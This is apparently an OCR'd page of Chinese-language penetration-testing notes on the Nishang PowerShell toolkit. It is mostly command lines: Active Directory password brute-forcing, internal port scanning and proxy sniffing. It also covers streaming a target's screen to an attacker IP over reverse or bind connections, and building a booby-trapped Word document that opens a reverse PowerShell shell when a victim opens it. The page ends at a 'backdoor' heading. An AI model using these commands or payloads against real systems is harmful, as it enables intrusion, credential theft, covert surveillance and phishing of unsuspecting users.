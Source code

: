 ```pythn
#比如
Invoke-BruteForce -ComputerName  xx-PC  -UserList user.txt  -PasswordList pass.txt  -Service ActiveDirectory  -Verbose


# 内网扫描器

# 用于对内网进行扫描，打开本地监听，然后远程传送数据，把把发送给FireListener

#1.在本机开启监听
FireListener 130-150
#2.在目标机器输入命令：
FireListener 192.168.0.107 130-150 -Verbose


## 内网嗅探

动静很大，实在没有办法的时候可以试试
目标机执行以下命令
Invoke-Interceptor -ProxyServer 192.168.250.172 -ProxyPort 9999
本机监听
nc -lvvp 9999



## 屏幕窃取   Show-TargetScreen

#本机可以使用nc获取powercat进行监听（在本地使用支持MJPEG的浏览器比如firefox，访问本机对应监听端口，即可在浏览器上看到从远端传输回来的实时画面，正向反向均可）
Show-TargetScreen -Reverse -IPAddress 192.168.230.1 -Port 443   # 将远程的画面传输给 192.168.230.1 的443端口
参数： Bind --> 正向连接

在目标机执行以下命令（反向连接）
Show-TargetScreen  -IPAddress 192.168.230.172 -Port 3333
本机输入以下命令 ，接着访问本机的9999端口
nc -nlvp 3333 | nc -nlvp 9999


正向连接
目标机执行：
Show-TargetScreen -Bind -Port 3333
本机执行：
nc -nv 192.168.230.37 3333 | nc -lnvp 9999





## Client 的生成(类似木马)

需要自己绑定payload
首先在本机监听：
nc -lvp 4444
接着制作word文件，打开\nishang\Shell\Invoke-PowerShellTcpOneLine.ps1文件，复制第三行的内容，可以看到有一个`TcpClient`的参数，这就是远程连接的地址，把他改为本机的IP和你监听的端口，改完以后复制代码，在命令行下如下执行
Invoke-Encode -DataToEncode '复制的代码' -IsString -PostScript
执行完之后会在当前目录生成两个文件，一个是encode.txt， 一个是encodedcommand.txt
接着执行命令
Out-Word-PayloadScript .\encodedcommand.txt
会生成一个word文档，用户打开就中招，我们获取到反弹的powershell



##  后门
```